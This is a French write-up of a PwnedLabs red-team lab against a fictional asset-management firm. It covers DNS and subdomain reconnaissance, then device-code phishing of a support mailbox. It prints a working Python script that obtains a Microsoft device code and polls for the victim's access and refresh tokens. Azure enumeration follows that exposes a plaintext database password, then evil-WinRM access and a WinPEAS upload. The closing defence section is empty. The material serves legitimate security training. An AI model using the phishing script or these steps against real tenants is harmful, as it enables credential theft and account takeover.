

# PwnedLabs - Leverage Device Code Phishing for Initial Access

# Scénario

Notre client International Asset Management nous a demandé de réaliser une mission de red team. Il souhaite que nous commencions en externe comme le ferait un acteur malveillant, en en essayant de pénétrer son environnement et d'accéder aux ressources appartenant à son directeur ou à ses cadres supérieurs. Le phishing est dans le champ d'application, et les partenaires informatiques d'International Asset Management ont également accepté d'être inclus dans le test.

La seule information que l’on avont c’est un nom de domaine 

- [international-am.com](http://international-am.com/)

Initial footwork

Notre premiere etape est de prendre des renseignements sur ce domaine.

)

Différente information nous sont données que l’on peut scindé en 4 record différent

### 1. **A Records**

- **Host** : Le domaine principal ou un sous-domaine (`international-am.com`).
- **IP** : L'adresse IP associée (20.75.112.13).
- **ASN** : Le numéro de système autonome (ASN:8075) et le bloc IP associé (20.64.0.0/10).
- **ASN Name** : Nom associé à l'ASN (`MICROSOFT-CORP-MSN-AS-BLOCK`) avec la localisation (`United States`).
- **Open Services (from DB)** : Liste des services ouverts détectés :
 - **HTTP** : Redirige vers un statut 301.
 - **HTTPS** : Présence d'une erreur (`Microsoft Azure Web App - Error 404`).
 - **Certificate Details (cn/o)** : Indications sur le certificat TLS associé au service Azure (`ms...azurewebsites.net`).

---

### 2. **MX Records (Mail Exchange)**

- **Host** : L'entrée MX indiquant le serveur de messagerie (e.g., `international-am-com03c.mail.protection.outlook.com`).
- **IP** : Adresse IP associée (52.101.89.1).
- **ASN** : `ASN:8075` correspondant à Microsoft (bloc `52.96.0.0/12`) avec une localisation au **Royaume-Uni**.
- **Mail Protection Service** : Les informations indiquent que la protection des e-mails est gérée via Outlook (Microsoft).

---

### 3. **NS Records (Name Servers)**

- Liste des serveurs de noms :
 - `ns30.domaincontrol.com` associé à l'IP `173.201.72.15`.
 - `ns29.domaincontrol.com` associé à l'IP `97.74.104.15`.
- **ASN** : `ASN:44273` appartenant à `GODADDY-DNS, DE` (registrar DNS).
- Localisation : Les IPs semblent associées aux États-Unis.

---

### 4. **TXT Records**

- Entrées TXT trouvées :
 - Une chaîne d'identification probablement pour une vérification ou authentification (`"\_e5vsccc1uzkgiv...8j6c4qd"`).
 - Une entrée SPF (Sender Policy Framework) confirmant que les e-mails doivent provenir de `spf.protection.outlook.com` avec la directive `all` pour bloquer les envois non autorisés.œœœ

# Énumération de sous domaine

explication d’un sous domaine



Le sous-domaine est une partie clé de l’URL qui se situe **avant le domaine principal** (ici `exemple.com`) et est séparé par un point.

---

### **Rôle du sous-domaine**

1. **Organisation du contenu** :
 - Le sous-domaine permet de structurer un site web en séparant différents types de contenu ou fonctionnalités.
 - Par exemple, `blog.exemple.com` pourrait être utilisé pour héberger un blog, tandis que `shop.exemple.com` pourrait être dédié à une boutique en ligne.
2. **Indépendance relative** :
 - Les sous-domaines fonctionnent comme des entités distinctes du domaine principal. Ils peuvent avoir leurs propres fichiers, configurations, ou même être hébergés sur des serveurs différents.

La prochaine étape interessante est l’énumération de sous-domaine qui nous permet de découvrir si l’organisation utilise des applications ou d’autres service exposés via un autre sous domaine

## Énumération avec sublist3r

**Sublist3r** est un outil d’OSINT (Open-Source Intelligence) conçu pour **recenser les sous-domaines** d’un domaine cible. Il est principalement utilisé pour la reconnaissance (phase de collecte d'informations)

Dans cette exemple nous allons utilsier sublist3r avec l’argument -d qui spécifie un domaine


On peut voir que on ai que sur du passif , et sublist3r va regarder sur les differents site internet presente ci-dessus si [international-am.com](http://international-am.com) reponds avec un sous domaine

Nous allons utiliser l’argument -b pour faire un bruteforce de sous-domaine

il va donc utilise le module subbrute 

### Fonctionnement du module subbrute


Le module **Subbrute** est un outil intégré à Sublist3r qui effectue une **brute force DNS** pour découvrir les sous-domaines d'un domaine cible. Il utilise des listes préconfigurées de noms et de résolveurs pour identifier les sous-domaines de manière efficace. Voici une explication rapide basée sur le screen fourn

Dans notre cas voici les résultats:


on voit que dans notre cas ce ne sont pas des domaines interessant car `autodiscover` est utiliser pour la configuration de microsoft outlook pour l’authentification avec notre domaine et le sous domaine `entrepriseenrollment` redirige vers la page d’authentification de login.microsoft.com

Nous avons obtenu l'adresse IP du site Web à partir de l'enregistrement d'hôte DNS A. Découvrons-en plus à ce sujet.

## IP exploration

Nous pouvons utiliser ipinfo pour avoir plus d’information sur l’ip

Pour confirmer que l’entreprise utilise office 365 et azure on peut utiliser **getuserrealm.srf** c’est information était déjà plus ou moins sûr avec notamment l’utilisartion de outlook pour la partie mail ainsi que le portail microsoft azure web.


### **Localisation géographique**

- **Boydton, Virginia, United States** :
 - Cette IP est géolocalisée à Boydton, une ville connue pour héberger des **datacenters de Microsoft Azure**.
 - Cela indique que cette IP est probablement associée à un service Azure Cloud.

On peut croiser l’information avec un autre outil connus comme shodan , fofa , etc.. qui nous renvois sensiblement les même information 


# Découverte des services sur le nom de domaine

La première chose à regarder dans notre scoop est donc la partie web

**Petit tips** : Dans certains cas l’accès au nom de domaine directement via le navigateur peut ne pas fonctionner dans certains cas une méthode simple sur linux et de en mettant une IP dans le fichier `/etc/hosts` cela permet de mapper un nom de domaine à une IP pour contourner le DNS standard et accéder directement à un site ou service. Cela est utile pour :

1. **Contourner le DNS** : Accéder à un site même si le DNS n'est pas configuré ou bloqué.
2. **Tester des environnements** : Rediriger un domaine vers une IP pour tester une application ou un serveur en préproduction.
3. **Forcer une IP** : Choisir un serveur spécifique (ex. : avec un CDN ou équilibrage de charge).

Exemple dans notre cas mais non utile:

`20.75.112.13 international-am.com`

Premièrement accédons à l’url [`https://international-am.com/`](https://international-am.com/)


avant de se concentrer sur les fonctionnalités la première phase est de comprendre les technologies utilisés sur notre site web utilisons un outil comme wappalyzer

celui ci nous donne plusieurs informations sur les sécurités mise en place, les technos utilisés etc..


on peut se renseigner aussi via les différentes requêtes effectués sur le site web grace notamment a burpsuite.

Qui nous permet dans l’onglet de gauche les differentes urls requêtés 

et en bas le request et le response sur dans notre cas sur l’url par défaut `https://internationnal-am.com` 

on peut notamment déjà avoir un aperçu niveau sécurité en regarder les headers de sécurité mise en place sur le site web

On y voit plusieurs fichier html comme `about.html`, `contact.html` , `portal.html` on peut se rendre sur chacun de ces sites pour en vérifier le contenu.


## Contenu de portal.html

On peut voir deux champs Username et password, en essayant de rentrer des informations pour voir comment l’application réagit


en rentrant des données aléatoire dans les champs username/password


on a un invalid login qui est renvoyé mais ceux qui sont interessant c’est une adresse mail dans notre cas `support@international-am.com`

En fouillant le reste du site web , nous ne trouvons pas d’autres information utile

Tentant d’exploiter cette adresse mail via notamment une attaque par phishing

# **Nouvelle technique de phishing : authentification par code d'appareil**

En se renseignant sur une internet plusieurs méthode existe :

- **Phishing classique par imitation du portail Azure**.
- **Phishing par emails liés à Microsoft 365 et Azure (alertes, factures, paiements)**.
- **Consent Phishing (phishing via applications malveillantes demandant des permissions OAuth)**.
- **Phishing par code appareil**
- **MFA Fatigue Attack (fatigue liée aux demandes répétées de validation MFA / necessite des creds )**.
- **Exploitation des partages de ressources Azure Storage (blobs publics)**.
- **Vishing spécifique à Azure (phishing par téléphone)**.
- **Compromission d’identité via des services connectés (Teams, SharePoint)**.
- **Attaques via le partage de liens de ressources Azure**.
- **Redirection d’authentification Azure AD vers des pages malveillantes**.

Dans notre scénario les deux qui pourrait être interessante serait :

- **Phishing par code appareil**
- **Attaques via le partage de liens de ressources Azure**

## **Qu'est-ce que l'authentification par code d'appareil**

Selon [**la documentation**](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-oauth2-device-code) Microsoft, l'authentification par code de l'appareil :

> permet aux utilisateurs de se connecter à des appareils à accès limité, tels qu'un téléviseur intelligent, un appareil IoT ou une imprimante. Pour activer ce flux, l'appareil demande à l'utilisateur de visiter une page Web dans son navigateur sur un autre appareil pour se connecter. Une fois que l'utilisateur est connecté, l'appareil peut obtenir des jetons d'accès et actualiser les jetons selon les besoins.
> 

Le processus est le suivant :

- Un utilisateur démarre une application prenant en charge le **flux de code de l'appareil** sur un appareil.
- L'application se connecte au point de terminaison **Azure AD** `/devicecode` et envoie les paramètres **client\_id** et **resource**.
- Azure AD renvoie les informations suivantes :
 - **device\_code** : Code d'appareil unique.
 - **user\_code** : Code utilisateur unique.
 - **verification\_url** : URL à utiliser pour la validation (ex. : `https://microsoft.com/devicelogin`).
- L'appareil affiche à l'utilisateur :
 - L'**URL de vérification** (ex. : `https://microsoft.com/devicelogin`).
 - Le **code utilisateur** (user\_code).
- L'utilisateur ouvre un navigateur web, accède à l'**URL de vérification** et entre le **code utilisateur** lorsqu'il lui est demandé.
- L'utilisateur se connecte avec ses informations d'identification.
- Pendant ce temps, l'appareil interroge **Azure AD** pour vérifier si l'utilisateur a terminé la connexion.
- Après une connexion réussie, l'appareil reçoit les **access\_token** et **refresh\_token** d'Azure AD.

### **1. Connexion au point de terminaison /devicecode**

La première étape consiste à effectuer une requête http POST sur le point de terminaison du code de périphérique Azure AD :

```
 https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0

```

J'utilise les paramètres suivants. J'ai choisi d'utiliser le client\_id « Office.com » car il semble être le nom d'application le plus légitime sinon on utilisera celui de microsoft office car il donne aussi accès à l’api GRAPH

| **Paramètre** | **Valeur** |
| --- | --- |
| client\_id | 4b233688-031c-404b-9a80-a4f3f2351f90 |
| ressource | [https://www.office.com](https://www.office.com/) |

Nous pouvons utiliser le code ci-dessous pour interroger l’endpoint devicecode

En se renseignant sur internet il faut faire une requête POST à l’url suivante 

https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0

avec les éléments ci dessus donc client\_ID et ressource

## Utilisation de insomnia pour la requête

- **Type de requête** : POST
 - Utilisé pour envoyer des données au serveur (dans ce cas-là, des paramètres pour obtenir un code d'appareil).
- L’URL cible pointe vers l’endpoint `devicecode` d’Azure AD, utilisé dans le cadre du flux OAuth2 Device Code.
- **Paramètre de requête** :
 - `api-version=1.0` : Spécifie la version de l’API utilisée.

En-têtes:

1. **Content-Type** : `application/x-www-form-urlencoded`
 - Indique que les données du corps de la requête (Body) sont encodées au format `application/x-www-form-urlencoded`, ce qui est requis par l’endpoint Azure AD pour ce type de requête.


body:

On configure le body avec nos deux valeurs client\_id et ressource


réponse reçu:

```python
{
"user\_code": "L5TNTLHHP",
"device\_code": "LAQABIQEAAADW6jl31mB3T7ugrWTT8pFe7h65EWdCWCII8cEuojkaQoB2jaCzNznlhSiKzq4v23ypXWpR4rgvyLuYNlMGFvV5vzVTcApYEi2uUElwQ346JIFvYK2lkt5bpj-qPa4OlzWoM1yEzC3oSX4dNkG98sKPjqq-qtvkcDIvdwxeA6gy9oPjUWNCLkyaENuQC2OEO1sgAA",
"verification\_url": "[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)",
"expires\_in": "900",
"interval": "5",
"message": "To sign in, use a web browser to open the page [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) and enter the code L5TNTLHHP to authenticate."
}
```

On a donc les differentes information qui nous sont générer

Nous devons maintenant créer un script qui interroge en continu le point de terminaison du jeton et interroge l'état d'authentification. En cas d'authentification réussie, le script imprimera notre jeton d'accès (bien qu'un jeton d'actualisation plus précieux soit également stocké dans la variable).

Création d’un script python pour la reception du mail et l’attente qui est disponible sur mon github à l’adresse suivante https://github.com/Bencodin/Phishing-azure.git

```python
import requests
import time

# Paramètres pour la requête initiale
url\_device\_code = "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0"
url\_token = "https://login.microsoftonline.com/common/oauth2/token"
payload\_device\_code = {
 "client\_id": "4b233688-031c-404b-9a80-a4f3f2351f90", # Votre client\_id
 "resource": "https://www.office.com" # La ressource cible
}

# Étape 1 : Obtenir le code de l'appareil et les informations d'authentification
response = requests.post(url\_device\_code, data=payload\_device\_code)

if response.status\_code == 200:
 data = response.json()
 device\_code = data["device\_code"]
 interval = int(data["interval"]) # Convertir en entier ici
 print("=== Étape 1 : Informations pour l'utilisateur ===")
 print(f"User Code: {data['user\_code']}")
 print(f"Verification URL: {data['verification\_url']}")
 print(f"Message: {data['message']}")
else:
 print(f"Erreur lors de la requête Device Code: {response.status\_code}, {response.text}")
 exit()

# Étape 2 : Attendre que l'utilisateur termine l'authentification
print("\n=== Étape 2 : Attente de l'authentification ===")
while True:
 # Préparer la requête pour interroger l'endpoint de token
 payload\_token = {
 "client\_id": "4b233688-031c-404b-9a80-a4f3f2351f90",
 "resource": "https://www.office.com",
 "grant\_type": "device\_code",
 "code": device\_code
 }

 token\_response = requests.post(url\_token, data=payload\_token)

 if token\_response.status\_code == 200:
 token\_data = token\_response.json()
 print("\n=== Étape 3 : Authentification réussie ===")
 print(f"Access Token: {token\_data['access\_token']}")
 print(f"Refresh Token: {token\_data['refresh\_token']}")
 break
 elif token\_response.status\_code == 400:
 # Code 400 : L'utilisateur n'a pas encore terminé
 error = token\_response.json().get("error", "")
 if error == "authorization\_pending":
 print("En attente que l'utilisateur termine l'authentification...")
 time.sleep(interval) # Attendre avant de réessayer
 else:
 print(f"Erreur: {token\_response.json()}")
 break
 else:
 print(f"Erreur lors de la requête Token: {token\_response.status\_code}, {token\_response.text}")
 break
```

### **Explications du code**

### **Étape 1 : Obtenir le code d'appareil**

1. Une requête est envoyée à l'endpoint `/devicecode`.
2. La réponse contient :
 - `device\_code` : Utilisé pour interroger Azure AD plus tard.
 - `user\_code` : Le code que l'utilisateur doit entrer.
 - `verification\_url` : L'URL où l'utilisateur doit entrer son code.
 - `interval` : Le délai (en secondes) entre chaque interrogation de l'endpoint de token.

### **Étape 2 : Attente de l'utilisateur**

1. Une boucle `while` interroge régulièrement l'endpoint `/token` avec le `device\_code`.
2. Si Azure AD retourne `authorization\_pending`, cela signifie que l'utilisateur n'a pas encore terminé l'authentification. Le script attend pendant l'intervalle spécifié avant de réessayer.
3. Si l'utilisateur termine l'authentification avec succès, un `access\_token` et un `refresh\_token` sont retournés.

### **Étape 3 : Authentification réussie**

1. Une fois que l'authentification est terminée, le script affiche :
 - `access\_token` : Le jeton d'accès pour accéder aux ressources.
 - `refresh\_token` : Utilisé pour rafraîchir le jeton d'accès expiré.

On envoie un mail à l’utilisateur


En attendant 5 min je n’ai toujours pas de réponse, je pense que le problème réside dans l’application utilise au départ donc [office.com](http://office.com) je vais utiliser ces informations

| **Paramètre** | **Valeur** |
| --- | --- |
| client\_id | d3590ed6-52b3-4102-aeff-aad2292ab01c |
| ressource | [https:/](https://www.office.com/)/graph.microsoft.com |


On refait le même processus avec l’envoie de mail et on a donc une réponse avec le token


En se renseignant microsoft nous indiques que l’access token générés est enfaite un token jwt( json web token) , on peut le décoder avec un outil comme jwt.io


Option 2 : Utiliser graphrunner avec l’utilisation de Get-GraphTokens

Après avoir cloner le repot sur git

```python
Import-Module .\GraphRunner.ps1
Get-GraphTokens
```


on se connecte avec le token 


Lançons la commande Invoke-CheckAccess et on passe notre token en argument

```python
Invoke-CheckAccess -Tokens $tokens

@odata.context : https://graph.microsoft.com/v1.0/$metadata#users/$entity
businessPhones : {}
displayName : International Asset Management (Mega Big Tech MSSP Support)
givenName :
jobTitle :
mail : [support@international-am.com](mailto:support@international-am.com)
mobilePhone :
officeLocation :
preferredLanguage :
surname :
userPrincipalName : [support@international-am.com](mailto:support@international-am.com)
id : 4be78737-a40a-477f-9419-71ea104f644d
```

On peut faire bcp de choses avec le tokens comme par exemple lister les partages sur sharepoint

```python
Get-SharePointSiteURLs -Tokens $tokens
[*] Using the provided access tokens.
[*] Now getting SharePoint site URLs...
[*] Found a total of 11 site URLs.
Web URL: [https://iancloudpwned.sharepoint.com/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/Shared](https://iancloudpwned.sharepoint.com/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/sites/allcompany/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/Shared](https://iancloudpwned.sharepoint.com/sites/allcompany/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/SiteAssets/Forms/AllItems.aspx](https://iancloudpwned.sharepoint.com/sites/allcompany/SiteAssets/Forms/AllItems.aspx)
Web URL: [https://iancloudpwned.sharepoint.com/sites/allcompany/Style](https://iancloudpwned.sharepoint.com/sites/allcompany/Style) Library/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/FormServerTemplates/Forms/All](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/FormServerTemplates/Forms/All) Forms.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Shared](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Shared) Documents/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Forms/AllItems.aspx](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/SiteAssets/Forms/AllItems.aspx)
Web URL: [https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Style](https://iancloudpwned.sharepoint.com/sites/DefaultDirectory/Style) Library/Forms/AllItems.aspx
Web URL: [https://iancloudpwned.sharepoint.com/Style](https://iancloudpwned.sharepoint.com/Style) Library/Forms/AllItems.aspx
```

On peut se connecter aussi avec le client azure

Il faut pour cette exemple renvoyer un email à l’utilisateur avec ce nouveau device code


Listons les ressources 

```python
az resource list 
[
 {
 "changedTime": "2024-10-25T17:14:30.767020+00:00",
 "createdTime": "2024-10-25T17:04:29.778163+00:00",
 "extendedLocation": null,
 "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Web/staticSites/InternationalAssetManager",
 "identity": null,
 "kind": null,
 "location": "eastus2",
 "managedBy": null,
 "name": "InternationalAssetManager",
 "plan": null,
 "properties": null,
 "provisioningState": "Succeeded",
 "resourceGroup": "mbt-rg-22",
 "sku": {
 "capacity": null,
 "family": null,
 "model": null,
 "name": "Free",
 "size": null,
 "tier": "Free"
 },
 "tags": {},
 "type": "Microsoft.Web/staticSites"
 },
 {
 "changedTime": "2024-11-01T23:36:00.398299+00:00",
 "createdTime": "2024-11-01T23:25:55.987539+00:00",
 "extendedLocation": null,
 "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/publicIPAddresses/SECURITY-DIRECTOR-ip",
 "identity": null,
 "kind": null,
 "location": "eastus",
 "managedBy": null,
 "name": "SECURITY-DIRECTOR-ip",
 "plan": null,
 "properties": null,
 "provisioningState": "Succeeded",
 "resourceGroup": "mbt-rg-22",
 "sku": {
 "capacity": null,
 "family": null,
 "model": null,
 "name": "Standard",
 "size": null,
 "tier": null
 },
 "tags": null,
 "type": "Microsoft.Network/publicIPAddresses",
 "zones": [
 "1"
 ]
 },
 {
 "changedTime": "2024-12-08T23:17:29.883722+00:00",
 "createdTime": "2024-12-08T22:48:01.631022+00:00",
 "extendedLocation": null,
 "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Compute/virtualMachines/SECURITY-DIRECTOR",
 "identity": null,
 "kind": null,
 "location": "eastus",
 "managedBy": null,
 "name": "SECURITY-DIRECTOR",
 "plan": null,
 "properties": null,
 "provisioningState": "Succeeded",
 "resourceGroup": "mbt-rg-22",
 "sku": null,
 "tags": {
 "Company": "International Asset Management"
 },
 "type": "Microsoft.Compute/virtualMachines",
 "zones": [
 "1"
 ]
 },
 {
 "changedTime": "2024-12-08T22:58:00.408145+00:00",
 "createdTime": "2024-12-08T22:47:56.006782+00:00",
 "extendedLocation": null,
 "id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/publicIPAddresses/SECURITYDIRECTORip304",
 "identity": null,
 "kind": null,
 "location": "eastus",
 "managedBy": null,
 "name": "SECURITYDIRECTORip304",
 "plan": null,
 "properties": null,
 "provisioningState": "Succeeded",
 "resourceGroup": "mbt-rg-22",
 "sku": {
 "capacity": null,
 "family": null,
 "model": null,
 "name": "Standard",
 "size": null,
 "tier": null
 },
 "tags": null,
 "type": "Microsoft.Network/publicIPAddresses",
 "zones": [
 "1"
 ]
 }
]
```

On peut voir plusieurs ressource intéressantes InternationnalAssetManager qui est en type static site ainsi que SECURITY-DIRECTOR en type virtual machine

Commençons par lister le site static

On se renseignant sur internet , on peut voir que l’on peut énumerer avec `az staticwebapp`


Nous pouvons en déduire que c’est le domaine initial qui héberge le site web que l’on a vu au début du chall

Listons des à present les settings de l’app

```python
az staticwebapp appsettings list --name InternationalAssetManager
{
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Web/staticSites/InternationalAssetManager/config/appsettings",
"kind": null,
"location": "East US 2",
"name": "appsettings",
"properties": {
"APP\_VERSION": "2.1.1",
"DATABASE\_CONNECTION\_STRING": "Server=tcp:iamclientportal.database.windows.net,1433;Initial Catalog=users;Persist Security Info=False;User ID=admin;Password=IntAM-P@ss123;MultipleActiveResultSets=False;Encrypt=True;TrustServerCertificate=False;Connection Timeout=30;"
},
"resourceGroup": "mbt-rg-22",
"type": "[Microsoft.Web/staticSites/config](http://microsoft.web/staticSites/config)"
}
```

On peut voir qu’une base de donnée tourne sur le port 1433 et on a aussi des creds `ID=admin;Password=IntAM-P@ss123`

En en essayant de se connecter cela est impossible de faire la résolution de nom de `iamclientportal.database.windows.net`

Listons la ressource SECURITY-DIRECTOR 


```python
az vm show --resource-group mbt-rg-22 --name SECURITY-DIRECTOR 
 {
"additionalCapabilities": {
"hibernationEnabled": false,
"ultraSsdEnabled": null
},
"applicationProfile": null,
"availabilitySet": null,
"billingProfile": null,
"capacityReservation": null,
"diagnosticsProfile": {
"bootDiagnostics": {
"enabled": true,
"storageUri": null
}
},
"etag": "\"179\"",
"evictionPolicy": null,
"extendedLocation": null,
"extensionsTimeBudget": null,
"hardwareProfile": {
"vmSize": "Standard\_B2s",
"vmSizeProperties": null
},
"host": null,
"hostGroup": null,
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Compute/virtualMachines/SECURITY-DIRECTOR",
"identity": null,
"instanceView": null,
"licenseType": "Windows\_Server",
"location": "eastus",
"managedBy": null,
"name": "SECURITY-DIRECTOR",
"networkProfile": {
"networkApiVersion": null,
"networkInterfaceConfigurations": null,
"networkInterfaces": [
{
"deleteOption": "Detach",
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/networkInterfaces/security-director23\_z1",
"primary": null,
"resourceGroup": "mbt-rg-22"
}
]
},
"osProfile": null,
"plan": null,
"platformFaultDomain": null,
"priority": null,
"provisioningState": "Succeeded",
"proximityPlacementGroup": null,
"resourceGroup": "mbt-rg-22",
"resources": null,
"scheduledEventsPolicy": null,
"scheduledEventsProfile": null,
"securityProfile": null,
"storageProfile": {
"dataDisks": [],
"diskControllerType": "SCSI",
"imageReference": null,
"osDisk": {
"caching": "ReadWrite",
"createOption": "Attach",
"deleteOption": "Detach",
"diffDiskSettings": null,
"diskSizeGb": 127,
"encryptionSettings": null,
"image": null,
"managedDisk": {
"diskEncryptionSet": null,
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Compute/disks/SECURITY-DIRECTOR",
"resourceGroup": "mbt-rg-22",
"securityProfile": null,
"storageAccountType": "StandardSSD\_LRS"
},
"name": "SECURITY-DIRECTOR",
"osType": "Windows",
"vhd": null,
"writeAcceleratorEnabled": null
}
},
"tags": {
"Company": "International Asset Management"
},
"timeCreated": "2024-12-08T22:48:01.681267+00:00",
"type": "Microsoft.Compute/virtualMachines",
"userData": null,
"virtualMachineScaleSet": null,
"vmId": "53420129-b4dc-460c-bb02-071b0208c6b9",
"zones": [
"1"
]
}
```

Faisons une requête sur l’id suivant lister précedemment

`https://management.azure.com/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Compute/virtualMachines/SECURITY-DIRECTOR?api-version=2021-07-01&$expand=userData`

Sur cette endpoint il faut passer dans le header le bearer qui contient l’access token de notre utilisateur voici un moyen de le générer
`az account get-access-token` 


On peut voir le token de type bearer

On peut ensuite le mettre dans une variable comme sur le screen pour l’utiliser plus tard

Utilisons insomnia pour voir ce que ça nous renvoies


Plusieurs information sont intéressantess notamment que l’ont a des droits read and write et un champs userData qui contient une string essayons de la décoder avec cyberchef qu’il détecte comme étant du base64


On a une information intéressantes notamment que le remote access est activé 

On se rappelle que l’ont a des creds de la base de donnée initialement on pourrait trouver un moyen de se connecter à cette machine en en essayant ces identifiants.

Il faudrait tout d’abord avoir un nom de machine ou une ip si cette machine est exposé étant donnée que c’est surement la machine qui héberge le site web celle ci est surement exposés

En se renseignant un module [https://learn.microsoft.com/fr-fr/cli/azure/network/public-ip?view=azure-cli-latest](https://learn.microsoft.com/fr-fr/cli/azure/network/public-ip?view=azure-cli-latest) az network public-ip existe pour gérer les adresses ips publiques.

Notre but est d’obtenir cette adresse ip on peut utiliser l’option show

```python
az network public-ip show -h 

Command
 az network public-ip show : Get the details of a public IP address.

Arguments
 --expand : Expands referenced resources.

Resource Id Arguments
 --ids : One or more resource IDs (space-delimited). It should be a complete
 resource ID containing all information of 'Resource Id' arguments. You
 should provide either --ids or other 'Resource Id' arguments.
 --name -n : The name of the public IP address.
 --resource-group -g : Name of resource group. You can configure the default group using `az
 configure --defaults group=`.
 --subscription : Name or ID of subscription. You can configure the default subscription
 using `az account set -s NAME\_OR\_ID`.

Global Arguments
 --debug : Increase logging verbosity to show all debug logs.
 --help -h : Show this help message and exit.
 --only-show-errors : Only show errors, suppressing warnings.
 --output -o : Output format. Allowed values: json, jsonc, none, table, tsv, yaml,
 yamlc. Default: json.
 --query : JMESPath query string. See http://jmespath.org/ for more information and
 examples.
 --verbose : Increase logging verbosity. Use --debug for full debug logs.
```

D’après l’aide on à déja 2 information que l’on connait déja donc le —name qui est égale à SECURITYDIRECTOR et le —ressource-group qui est égale à mbt-rg-22 en essayant la commande suivante:

```python
az network public-ip show --resource-group mbt-rg-22 --name SECURITYDIRECTOR

résultat:
(AuthorizationFailed) The client 'support@international-am.com' with object id '4be78737-a40a-477f-9419-71ea104f644d' does not have authorization to perform action 'Microsoft.Network/publicIPAddresses/read' over scope '/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/publicIPAddresses/SECURITYDIRECTOR' or the scope is invalid. If access was recently granted, please refresh your credentials.
Code: AuthorizationFailed
```

On peut voir que l’authorization échoue 

Après avoir bien lister les ressources et les réponses de insomnia je vois un —name qui est égale à SECURITYDIRECTORip304 je vais essayer de refaire la commande avec cette valeur et bingo la commande réussit et nous renvoies les informations

```python
az network public-ip show --resource-group mbt-rg-22 --name SECURITYDIRECTORip304
{
"etag": "W/\"df78e145-3164-4ea3-9e35-4c11156213cb\"",
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/publicIPAddresses/SECURITYDIRECTORip304",
"idleTimeoutInMinutes": 4,
"ipAddress": "20.127.161.82",
"ipConfiguration": {
"id": "/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-22/providers/Microsoft.Network/networkInterfaces/security-director23\_z1/ipConfigurations/ipconfig1",
"resourceGroup": "mbt-rg-22"
},
"ipTags": [],
"location": "eastus",
"name": "SECURITYDIRECTORip304",
"provisioningState": "Succeeded",
"publicIPAddressVersion": "IPv4",
"publicIPAllocationMethod": "Static",
"resourceGroup": "mbt-rg-22",
"resourceGuid": "765245ca-c108-4d3d-840b-a50e07dc3094",
"sku": {
"name": "Standard",
"tier": "Regional"
},
"type": "Microsoft.Network/publicIPAddresses",
"zones": [
"1"
]
}
```

On a donc notre adresse ip 20.127.161.82

La prochaine étape est de trouver une porte d’entrée pour se connecter donc voir si on peut se connecter avec des outils comme evilWinRM ou en rdp etc…

Un port souvent ouvert pour la connexion a distance est le port 3389 qui est le port RDP par défaut


On se connecte avec evil-WinRM


La première choses à faire est de regarder les droits de notre utilisateur ainsi que les differents utilisateur avec la commande Whoami /all et net users


On voit un compte james\_local 

Enumerons ces droits


On peut voir que c’est le directeur de la sécurité et que donc des informations très sensible peuvent être disponible sur l’appareil.

Essayons de télécharger un logiciel comme Winpeas pour la élévation de privilèges

En faisant la commande menu on peut voir que on peut upload un fichier/dossier

En amont il faut donc télécharger l’executable sur le github suivant https://github.com/peass-ng/PEASS-ng/releases


On va se rendre dans le C:/Temp qui est un dossier souvent utilisés pour télécharger des fichiers on va s’y rendre , on voit dans le dossier qu’il se trouve le fichier flag.txt


On a donc finis le chall

Mais pour voir on va quand même exécuter notre executable


On execute winPEAS


La seule choses intéressantes que nous remonte winpeas ce sont que notre utilisateur a tous les droits sur pscp.exe


## Défense

